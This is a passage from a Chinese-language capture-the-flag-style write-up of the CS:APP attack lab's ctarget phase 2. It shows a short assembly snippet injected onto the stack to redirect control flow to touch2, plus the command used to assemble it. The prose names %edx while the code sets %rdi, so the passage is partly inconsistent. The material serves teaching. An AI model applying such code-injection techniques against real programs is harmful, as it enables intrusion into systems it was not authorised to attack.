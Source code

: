     ![Wrong](img/csapp-lab-writeup/ctarget_touch1.png)

- **phase2**
  - `touch2`函数与`touch1`不太一样，它多了一项寄存器的比较。只有当`%edx == <cookie>`时才能通过当前关卡。
    ![Wrong](img/csapp-lab-writeup/ctarget_3.png)
  - 此时我们就需要在栈上布下代码，使控制流在`getBuf`函数返回时**跳转至栈上的代码**，**修改%edx寄存器**并最终**跳转回`touch2`函数**。这部分代码为
    > `touch2`函数的地址为`0x4017ec`

      ```s
      movq $0x59b997fa, %rdi # 0x59b997fa是个人cookie
      push $0x4017ec
      ret
      ```

    之后执行以下指令，将其编译为机器码并显示详细信息。

      ```bash
      gcc -c asm.s -o asm.o && objdump -d asm.o
      ```

    ![Wrong](img/csapp-lab-writeup/ctarget_asm_1.png)
